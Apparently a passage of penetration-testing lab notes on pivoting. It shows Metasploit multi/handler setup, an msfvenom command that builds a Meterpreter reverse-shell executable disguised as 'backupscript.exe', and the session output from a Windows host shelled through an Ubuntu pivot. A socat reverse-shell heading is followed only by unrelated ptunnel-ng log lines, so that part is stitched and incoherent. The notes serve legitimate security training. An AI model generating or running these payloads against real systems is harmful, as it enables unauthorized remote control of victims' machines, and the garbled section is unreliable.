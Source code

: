 ### **Configuring & Starting multi/handler**

```
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081
```

We can now create a reverse shell payload that will send a connection back to our Ubuntu server on `172.16.5.129`:`1234` when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to `attack host's ip`:`8081` that we configured.

```
dollarboysushil@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

Finally, if we execute our payload on the Windows host, we should be able to receive a shell from Windows pivoted via the Ubuntu server.

```
[*] Started reverse TCP handler on 0.0.0.0:8081
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500

meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

# Playing Pong with Socat

## **Socat Redirection with a Reverse Shell**


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.